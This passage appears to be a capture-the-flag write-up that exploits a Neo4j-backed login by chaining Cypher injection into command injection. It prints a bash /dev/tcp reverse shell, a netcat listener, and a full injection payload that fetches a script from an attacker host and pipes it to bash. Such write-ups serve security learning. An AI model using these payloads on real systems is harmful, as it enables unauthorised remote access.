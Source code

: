 We can inspect in detail the requests and responses using **BurpSuite's** Proxy Interceptor.

![alt text](images/image-6.png)

We can see that the authentication process is handled by the **/api/auth** endpoint, suggesting that we may be able to forge custom Cypher SQL Injections and exploiting the command execution vulnerability found in `getUrlStatusCode()` to execute a reverse shell in order to gain access.

---

## Exploitation

After several attempts trying to figure out the syntax of Neo4j's cypher, we finally found the correct way to structure the queries and execute commands.

We created a local Python server using `python -m http.server` and created a bash script that contains our reverse shell by executing the following command `bash -i &> /dev/tcp/10.10.14.48/8888 0>&1`. Next we opened a listener for the port we want our reverse shell to communicate by using netcat. `nc -lvnp 8888`

Next we submitted the following query to the Login page as an Cypher Injection 
`admin' return h.value as value UNION CALL custom.getUrlStatusCode("http://127.0.0.1;curl 10.10.14.48:8000/reverse_shell.sh|bash;") YIELD statusCode AS value RETURN value;//` that granted us a reverse shell to the system.

![alt text](images/image-9.png)

The results were positive by receiving response on our listener.

![alt text](images/image-8.png)

---